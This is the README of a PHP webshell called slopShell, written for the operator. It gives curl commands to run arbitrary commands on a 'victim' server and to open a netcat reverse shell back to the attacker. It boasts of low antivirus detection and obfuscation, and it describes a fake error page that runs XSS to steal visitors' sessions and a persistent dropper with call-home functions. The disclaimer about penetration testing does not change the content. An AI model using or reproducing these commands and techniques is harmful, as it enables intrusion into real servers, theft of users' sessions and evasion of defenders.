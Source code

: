 [![GitHub forks](https://img.shields.io/github/forks/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/network)
[![GitHub stars](https://img.shields.io/github/stars/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/stargazers)
[![GitHub watchers](https://img.shields.io/github/watchers/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/watchers)
[![GitHub issues](https://img.shields.io/github/issues/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/issues)
[![language](https://img.shields.io/badge/language-PHP-blue?style=plastic)](https://www.php.net)
[![language](https://img.shields.io/badge/language-Powershell-blue?style=plastic)](https://docs.microsoft.com/en-us/powershell/)
[![language](https://img.shields.io/badge/language-Bash-yellow?style=plastic)](https://www.gnu.org/software/bash/)
[![BuyMeACoffee](https://img.shields.io/badge/BuyMeACoffee-Or%20Book-yellowgreen?style=plastic)](https://www.buymeacoffee.com/oldkingcone)


# slopShell
php webshell

Since I derped, and forgot to talk about usage. Here goes.

For this shell to work, you need 2 things, a victim that allows php file upload(yourself, in an educational environment) and a way to send http requests to this webshell. 

Basic Usage Video(Hosted on Youtube):

[![Video Showing Usage](https://i.ytimg.com/vi_webp/FywNszpfDJo/maxresdefault.webp)](https://www.youtube.com/watch?v=FywNszpfDJo)

Current VT Detection ratio: 2/59

[![Virus Total](https://www.virustotal.com/gui/images/VT_search_hash.svg)](https://www.virustotal.com/gui/file/8b792d74945ebf3d22828eaa22dec1d3df535247c6b741f003576e2be57195b9/detection)


Current VT Detection ratio (obfuscated version): 1/59

[![Virus Total](https://www.virustotal.com/gui/images/VT_search_hash.svg)](https://www.virustotal.com/gui/file/178ad408829bff25f51672828568fa6f985a04d63efc02da0bf1797bb22d4581/detection)

The issue with this detection happening is i have not found a viable workaround for the keyword of eval if there was no call to eval this script would be undetectable.

---
# Setup

Ok, so here we go folks, there was an itch I had to write something in PHP so this is it. This webshell has a few bells and whistles, and more are added everyday. You will need a pgsql server running that you control. However you implement that is on you.

Debian: `apt install -y postgresql php php-pear && python -m pip install proxybroker --user`

RHEL Systems: `dnf -y -b install postgresql-server postgresql php php-pear && python -m pip install proxybroker --user`

WIN: `install the php msi, and make sure you have an active postgresql server that you can connect to running somewhere. figure it out.`


Once you have these set up properly and can confirm that they are running. A command I would encourge using is with `pg_ctl` you can create the DB that way, or at least init it and start it. Then all the db queries will work fine.

---
## How to interact.

Firstly, you need to choose a valid User-Agent to use, this is kind of like a first layer of protection against your webshell being accidentally stumbled upon by anyone but you. I went with sp/1.1 as its a non typical user-agent used. This can cause red flags in a pentest, and your access or script to be blocked or deleted. So, be smart about it. Code obfuscation wouldnt hurt, I did not add that in because thats on you to decide. To use the shell, there are some presets to aid you in your pen test and traversal of the machine. I did not add much for windows, because I do not like developing for windows. If you have routines or tricks added or know about, feel free to submit an issue with your suggestion and ill add it. An example of how to use this webshell with curl:

`curl https://victim/slop.php?qs=cqP -H "User-Agent: sp/1.1" -v`

or to execute custom commands:

`curl https://victim/slop.php --data "commander=id" -H "User-Agent: sp/1.1" -v`

Or to attempt to establish a reverse shell to your machine:

`curl https://victim/slop.php --data "rcom=1&mthd=nc&rhost=&rport=&shell=sh" -H "User-Agent: sp/1.1" -v`

- mthd = the method you want to use to establish the reverse shell, this is predefined in the `$comma` array, feel free to add to it, optional, if it is null, the script will choose for you.
- rhost = you, now this and the rport are not required, as it defaults to using netcat with the ip address in the `$_SERVER["REMOTE_ADDR"]` php env variable.
- rport = your listener port, the default was set to 1634, just because.
- shell = the type of system shell you want to have. I know bash isnt standard on all systems, but thats why its nice for you to do some system recon before you try to execute this command.

Here is the better part of this shell. If someone happens upon this shell without supplying the exact user agent string specified in the script, this shell will produce a 500 error with a fake error page then it will attempt some XSS to steal that users session information and sends it back to a handler script on your server/system. This will then attempt to store the information in a running log file. If it is unable to do so, well the backup is your logs. Once the XSS has completed, this shell will redirect the user back to the root(/) of the webserver. So, youll steal sessions if someone finds this, can even beef it up to execute commands on the server on behalf of the user, or drop a reverse shell on the users browser through Beef or another method. The possibilities are legit endless.

---
## Images of use cases

In browser, navigated to without the proper user-agent string. (1st level of auth)
![](https://github.com/oldkingcone/slopShell/blob/master/in_browser.jpeg?raw=true)

Use in the terminal, which is how this was designed to work, using curl with the -vH "User-Agent: sp1.1" switches.
![](https://github.com/oldkingcone/slopShell/blob/master/use_in_terminal.jpeg?raw=true)

Obfuscated script example: 
![](https://github.com/oldkingcone/slopShell/blob/master/img.png?raw=true)


---

## Interacting through the client script

Once the client script is complete, you as the operator will not need to interact though curl to utilize this shell. There will be a client script that you can use to execute all commands/control over. In addition to this client script, there is a dropper. This dropper will ensure the script is run at start up even if the website is removed. Including some call home functions, obfuscation if it is requested on a level from 1 to 3, with 3 being the highest as every function will be rot ciphered and then encoded in base64 within the whole file being base64 encoded with a random name assigned to the file itself. This can help avoid signature detection. 


---
## Encryption

Once the encryption routine is fully worked out, the dropper script will be encrypted, and highly obfuscated.
Example output:
```
Base64 decoded: also a test 123
Re-Encoded: YWxzbyBhIHRlc3QgMTIz
Key: 4212bd1ff1d366f23ca77021706a9a29cb824b45f82ae312bcf220de68c76760289f1d5550aa341002f1cfa9831e871e
Key Length: 96
Encryption Result:
Array
(
    [original] => also a test 123
    [key] => 4212bd1ff1d366f23ca77021706a9a29cb824b45f82ae312bcf220de68c76760289f1d5550aa341002f1cfa9831e871e
    [encrypted] => meIHs/y6_U7U~7(M
    [base64_Encoded] => bWVJSAAdcw4veTZfVQU3VX43KE0=
)
Decrypt Test:
Array
(
    [key] => 4212bd1ff1d366f23ca77021706a9a29cb824b45f82ae312bcf220de68c76760289f1d5550aa341002f1cfa9831e871e
    [encrypted] => meIHs/y6_U7U~7(M
    [decrypted] => YWxzbyBhIHRlc3QgMTIz
    [base64_decoded] => also a test 123
    [original] => also a test 123
)
```

---
## Additional

This was going to remain private. But I decided otherwise.

Do not abuse this shell, and get a signature attached to it, this is quite stealthy right now since its brand new.

I as the maintainer, am in no way responsible for the misuse of this product. This was published for legitmate penetration testing/red teaming purposes, and/or for educational value.  Know the applicable laws in your country of residence before using this script, and do not break the law whilst using this. Thank you and have a nice day.



If you have enjoyed this script, its is obligatory that you follow me and throw a star on this repo... because future editions will have more features(or bugs) depending on how you look at it.

